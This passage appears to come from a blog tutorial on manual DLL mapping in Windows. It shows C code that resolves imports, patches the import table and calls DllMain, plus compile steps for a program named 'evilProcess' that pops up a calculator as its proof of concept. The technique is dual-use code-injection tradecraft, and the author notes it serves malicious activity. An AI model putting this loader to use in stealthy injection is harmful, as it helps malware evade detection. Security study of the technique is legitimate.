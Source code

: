             PIMAGE_IMPORT_DESCRIPTOR importDescriptor = NULL;
            IMAGE_DATA_DIRECTORY importsDirectory = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
            importDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)(importsDirectory.VirtualAddress + (DWORD_PTR)dll_base);
            PCHAR libraryName = "";
            HMODULE library = NULL;

            while (importDescriptor->Name != 0) {
                libraryName = (PCHAR)importDescriptor->Name + (DWORD_PTR)dll_base;
                library = LoadLibraryA(libraryName);

                if (library) {
                    PIMAGE_THUNK_DATA thunk = NULL;
                    thunk = (PIMAGE_THUNK_DATA)((DWORD_PTR)dll_base + importDescriptor->FirstThunk);

                    while (thunk->u1.AddressOfData != 0) {
                        if (IMAGE_SNAP_BY_ORDINAL(thunk->u1.Ordinal)) {
                            LPCSTR functionOrdinal = (LPCSTR)IMAGE_ORDINAL(thunk->u1.Ordinal);
                            thunk->u1.Function = (DWORD_PTR)GetProcAddress(library, functionOrdinal);
                        }
                        else {
                            PIMAGE_IMPORT_BY_NAME functionName = (PIMAGE_IMPORT_BY_NAME)((DWORD_PTR)dll_base + thunk->u1.AddressOfData);
                            DWORD_PTR functionAddress = (DWORD_PTR)GetProcAddress(library, functionName->Name);
                            thunk->u1.Function = functionAddress;
                        }
                        ++thunk;
                    }
                }
                importDescriptor++;
            }

            DLLEntry DllEntry = (DLLEntry)((DWORD_PTR)dll_base + ntHeaders->OptionalHeader.AddressOfEntryPoint);
            (*DllEntry)((HINSTANCE)dll_base, DLL_PROCESS_ATTACH, 0);

            CloseHandle(dll);
            HeapFree(GetProcessHeap(), 0, dll_bytes);

            return 0;

                }
    ```
        - To sum up:<br/>
        It reads the DLL file into memory, allocates memory for the DLL image, and copies the DLL headers and sections into the allocated memory. Then, it adjusts absolute addresses in the DLL image using relocation information, ensuring that the DLL can execute properly at its new base address in the process's address space. Next, it loads the required libraries, resolves the addresses of imported functions, and updates the Import Address Table (IAT) accordingly, allowing the DLL to call functions from other modules. After that, it calls the entry point function (`DllMain`) of the DLL, passing necessary parameters such as the instance handle and the reason for the function call. Finally, it closes the handle to the DLL file and frees the memory allocated for storing the DLL file contents, ensuring proper resource management. With this loader, you have the capability to inject and execute arbitrary code within the context of another process, providing flexibility for various purposes, including debugging, monitoring, and, unfortunately, malicious activities.
            ```c
            // compile our own loader
            gcc -o evilProcess injector_dll.c 
            // run the executable and we have to see the calc is poped up
            ./evilProcess.exe
            ```
    - POC
        ![execution of the calc.dll with our Loader](/OTE22.github.io/assets/images/evilProcess.png)
- ***Note*** :<br/>